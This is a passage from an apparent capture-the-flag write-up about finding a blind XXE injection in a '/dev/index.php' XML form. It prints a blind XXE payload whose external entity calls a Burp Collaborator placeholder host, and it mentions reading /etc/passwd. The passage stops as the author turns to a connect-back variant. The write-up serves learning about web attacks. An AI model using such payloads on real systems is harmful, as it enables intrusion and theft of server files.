 ![image*](/img/image-20200703222553814.png)

There's another reference to FTP:

> TODO: Fix FTP Login

Interestingly, the source shows that this form submits a GET request:



    <form action="/dev/index.php" method="get" id="xmltest">



I wasn't able to get the page to display back to me `/etc/passwd` the
way I could when I could access the page as admin. But I didn't spent
too much time on it, rather focusing on FTP. I had to try a few payloads
from the [payloadsallthethings XXE
page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
but one of the blind payloads worked. I started with this:



    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
    ]>
    <r></r>



I first tried it as HTTP, updated it to connect back to me:
